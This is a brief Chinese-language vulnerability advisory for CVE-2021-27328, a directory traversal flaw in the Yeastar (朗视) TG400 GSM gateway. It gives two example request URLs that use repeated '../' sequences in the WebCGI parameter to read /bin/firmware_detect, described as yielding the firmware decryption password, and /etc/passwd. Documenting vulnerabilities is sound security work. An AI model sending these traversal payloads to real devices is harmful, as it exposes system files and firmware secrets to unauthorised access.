# 朗视 TG400 GSM 网关目录遍历  CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息



## 漏洞影响

> [!NOTE]
>
> 朗视 TG400 GSM 网关



## 漏洞复现

暂无FOFA语句及固件设备复现



```
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

## 参考文章

https://github.com/SQSamir/CVE-2021-27328